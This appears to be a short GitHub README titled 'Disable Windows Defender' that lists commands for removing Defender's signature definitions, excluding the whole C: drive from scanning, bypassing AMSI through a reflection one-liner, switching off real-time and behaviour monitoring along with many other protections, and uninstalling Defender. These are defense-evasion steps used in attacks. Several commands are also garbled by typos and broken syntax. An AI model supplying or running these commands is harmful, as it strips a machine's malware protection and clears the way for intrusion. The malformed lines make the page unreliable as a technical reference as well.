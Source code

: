 # Disable Windows Defender



[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

#### 1. In Administratir CMD run this Command

    
    C:\Program Files\Windows Defender\MpCmdRun.exe -RemoveDefinitions -All Set-Mp Preference -DisableIOAVProtection $true
    

#### 2. Powershell
    
    PowerShell :- Add-Mp Preference -ExeclusionPath "C:/"
    

#### 3 MSI
    
    
    "[Ref].Assembly.GetType('System.Management.Automation.Amsiutils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)"


----------------------------------------



#### 0x1. Powershell :

    
    Set-MpPreference -DisableRealtimeMonitoring $ true -DisableAutoExclusions $ true -DisablePrivacyMode $ true -DisableBehaviorMonitoring $ true -DisableIntrusionPreventionSystem $ true -DisableIOAVProtection $ true -DisableScriptScanning $ true -DisableArchiveScanning $ true -DisableCatchupFullScan $ true -DisableCatchupQuickScan $ true -DisableEmailScanning $ true -DisableRemovableDriveScanning $ true -DisableRestorePoint $ true -DisableScannedMappedNetworkDrivesForFullScan $ true -DisableScanningNetworkFiles $ true -DisableBlockAtFirstSeen $ true
    
#### 0x2. Uninstall Windows Defender
     Uninstall-WindowsFeature-Windows-Defender-Name

